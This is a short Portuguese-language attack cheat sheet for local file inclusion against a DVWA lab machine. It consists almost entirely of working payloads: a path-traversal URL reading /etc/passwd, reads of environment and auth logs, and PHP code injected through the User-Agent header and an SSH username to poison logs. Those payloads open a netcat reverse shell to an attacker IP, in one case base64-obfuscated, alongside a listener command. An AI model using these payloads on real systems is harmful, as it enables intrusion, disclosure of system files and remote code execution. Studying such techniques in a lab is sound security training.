 **LFI**


LFI

Exemplo:

http://192.168.56.102/dvwa/vulnerabilities/fi/?page=/../../../../../etc/passwd


Listando todas as variaveis de um ambiente.

cat /proc/self/environ


Comando para exibir informações de aplicações que usam o php:

Comando inserido via burp no campo user agent:

<?phpinfo();?>


Abrindo conexão com aplicação vulneravel a LFI

Comando inserido via burp suite no campo User-Agent

<?passthru("nc -e /bin/sh x.x.x.x xxx");?>

Esperando o codigo acima ser injetado na aplicação.

nc -vv -l -p xxx



Listando tentativas de log

cat /var/log/auth.log


Comando inserido na regiao de log atraves do terminal utilizando ssh, e apos gravar na regiao de log os coamandos

abaixo, execute novamente a buscar pelo arquivo na aplicação.

ssh "<?passthru("nc -e /bin/bash 192.168.56.101 8888");?>@192.168.56.102

ssh "<?passthru(base64_decode('bmMgLWUgL2Jpbi9iYXNoIDE5Mi4xNjguNTYuMTAxIDg4ODg='));?>"@192.168.56.102


http://192.168.56.102/dvwa/vulnerabilities/fi/?page=/../../../../../var/log/auth.log

